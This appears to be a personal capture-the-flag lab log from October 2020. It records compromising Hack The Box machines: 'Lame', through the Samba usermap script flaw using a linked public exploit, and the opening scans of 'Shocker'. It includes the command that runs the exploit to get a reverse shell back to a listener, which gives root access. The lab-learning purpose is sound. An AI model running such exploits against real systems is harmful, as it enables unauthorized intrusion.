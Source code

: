 # 2020

## October

### 10.10.10.3 - Lame

1. Performed initial scans of the server using go_scan and found it was running SMB version 3.0.20, which is vulnerable to CVE-2007-2447 and allows for remote code execution using the usermap script.  This page has an exploit prebuilt for this:  https://github.com/amriunix/CVE-2007-2447

4. Then I started a netcat listener and ran the code with the command:

   ```bash
   python usermap_script.py 10.10.10.3 445 10.10.14.29 8000
   ```

3. This gave me a reverse shell on the system as the root user where I was able to view the root.txt file:
   ![image-20201021203246679](.Report.assets/image-20201021203246679.png)

### 10.10.10.56 - Shocker

1. Initial nmap and gobuster scans of the box discovered a web server with a cgi-bin directory.  Further scanning into this directory revealed a user.sh script.
